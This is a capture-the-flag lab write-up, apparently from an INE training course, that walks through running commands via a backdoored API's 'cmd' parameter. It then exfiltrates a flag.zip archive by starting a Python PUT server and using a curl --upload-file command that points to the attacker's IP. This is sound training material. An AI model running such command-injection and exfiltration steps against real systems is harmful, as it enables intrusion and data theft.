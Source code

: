 ```yaml
---
description: >-
  In this lab you will learn how one can use a simple HTTP server written in
  Python for exfiltrating data from a restricted environment.
---
```


# Lab - Data Exfiltration



## Lab Environment

You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a low privilege user i.e. student. A sensitive flag file is kept in a zipped archive file in the student user's home directory.

Also, there is a monitor process running on the server machine that blocks most protocols except HTTP protocol (when using port 80).

**Objective:** Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

**Instructions**

* Once you start the lab, you will have access to the Kali GUI instance
* The API endpoint is accessible at `demo.ine.local` domain!

![](https://assets.ine.com/content/pta-labs/3\_data\_exfiltration/0.png)

## Tools

The tools used in this lab are:

* Nmap
* A web browser
* Python Scripting
* curl

## Solution

Run an nmap scan on demo.ine.local to find out open ports

```
nmap demo.ine.local
```

![](<../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png>)

We can see that port 8000 is open

Going to **demo.ine.local** shows us the following

![](<../../../../.gitbook/assets/image (8) (1) (1).png>)

From the "cmd parameter required" response, we know this means we need to pass parameter names cmd with the URL

For example `pwd` or `ls` or `whoami`

```
demo.ine.local:8000?cmd=pwd
```

![](<../../../../.gitbook/assets/image (2) (1) (1) (1).png>)

Here we see the present working directory located on the web-server

Let's see the contents of that directory

```
demo.ine.local:8000?cmd=ls -l
```

![](<../../../../.gitbook/assets/image (3) (1) (1) (1) (1).png>)

We see an interesting file flag.zip. However, in order to retrieve the flag, we need to transfer/exfiltrate this file to our Kali machine

One of the tools mentioned in the beginning was cURL. Let's check if curl is on the remote machine

```
demo.ine.local:8000?cmd=curl -h
```

![](<../../../../.gitbook/assets/image (10) (1) (1) (1) (1).png>)

Now that we know the remote machine has curl, let's check what our IP is.

```
ifconfig
```

![](<../../../../.gitbook/assets/image (4) (1) (1) (1) (1).png>)

In order to exfiltrate the flag.zip file, we need to run a HTTP server on our kali machine that can accept and save the file when it is sent over HTTP

This code will help us:

```python
#!/usr/bin/python

import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))

if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

Next I saved the file as **server.py** and ran it.

```
python server.py 80
```

Now we'll upload the zip file to our HTTP server running on Kali using curl

```
demo.ine.local:8000?cmd=curl+192.147.164.2+--upload-file+flag.zip
```

![](<../../../../.gitbook/assets/image (9) (1) (1) (1).png>)

Here we can see that our server received the file&#x20;

If we list the contents of our current working directory we'll see the file

![](<../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png>)

Lastly, unzip the file and retrieve the flag.

```
unzip flag.zip
```

```
cat flag/flag.txt
```

![](<../../../../.gitbook/assets/image (1) (1) (1) (1).png>)
